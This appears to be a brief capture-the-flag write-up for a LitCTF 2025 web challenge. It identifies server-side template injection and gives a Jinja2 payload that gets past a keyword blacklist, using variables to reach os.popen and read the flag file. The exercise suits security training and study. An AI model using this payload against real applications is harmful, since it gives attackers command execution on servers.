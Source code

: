 ```yaml
---
title: "LitCTF-2025"
date: 2025-05-26
categories: 
  - "CTF"
---
```


# LITCTF2025

## Web

### 星愿信箱

经过测试是SSTI，可以通过设置变量绕过黑名单

```jinja2
{% set os = (lipsum | attr('__globals__')) | attr('get')('os') %}
{% set popen = os | attr('popen') %}
{% set input_cmd = "head /flag" %}
{% set cmd = popen(input_cmd).read() %}
{% print cmd %}
```

![image-20250525203547160](images/image-20250525203547160.png)
